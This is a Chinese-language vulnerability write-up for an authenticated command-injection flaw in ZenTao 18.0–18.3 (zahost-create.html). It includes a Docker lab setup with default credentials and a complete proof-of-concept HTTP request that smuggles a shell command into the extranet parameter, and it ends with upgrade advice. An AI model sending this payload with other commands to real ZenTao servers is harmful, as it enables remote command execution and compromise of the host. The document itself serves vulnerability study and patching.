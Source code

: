 # 禅道 zahost-create.html 后台命令执行漏洞

## 漏洞描述

禅道项目管理系统 v18.0-v18.3 版本 `module/zahost/model.php` 中，`ping` 函数未对传入参数 `$address` 进行校验，导致后台命令执行。

参考链接：

- https://www.zentao.net/book/zentaoprohelp/41.html
- https://www.zentao.net/book/zentaopms/405.html

## 漏洞影响

```
禅道 >=18.0，<=18.3（开源版）
```

## 环境搭建

执行如下命令启动一个禅道 18.0 服务器：

```
docker compose up -d
```

docker-compose.yml

```
services:
  zentao:
    image: easysoft/zentao:18.0
    ports:
      - "8084:80"
    environment:
      - MYSQL_INTERNAL=true
    volumes:
      - /data/zentao:/data
```

服务启动后，访问 `http://your-ip:8084` 即可查看到安装页面，默认配置安装直至完成，数据库默认账号密码为 `root/123456`。

## 漏洞复现

使用安装时配置的账号密码登录系统，点击 `测试 → 宿主机`，添加一个宿主机：

![](images/禅道%20zahost-create.html%20后台命令执行漏洞/image-20250407113416776.png)

![](images/禅道%20zahost-create.html%20后台命令执行漏洞/image-20250407113543730.png)

抓包，修改 extranet 参数，拼接命令，执行 `touch /tmp/awesome_poc`：

```
POST /zahost-create.html HTTP/1.1
Host: your-ip:8084
Accept: application/json, text/javascript, */*; q=0.01
Origin: http://your-ip:8084
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Referer: http://your-ip:8084/zahost-create.html
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Cookie:
Content-Length: 120

vsoft=kvm&hostType=physical&name=poc&extranet=127.0.0.1|touch%20/tmp/awesome_poc&cpuCores=2&memory=2&diskSize=20&desc=&uid=67f347db724c1&type=za
```

![](images/禅道%20zahost-create.html%20后台命令执行漏洞/image-20250407114109214.png)

![](images/禅道%20zahost-create.html%20后台命令执行漏洞/image-20250407114454097.png)

## 漏洞修复

升级至最新版本 https://www.zentao.net/
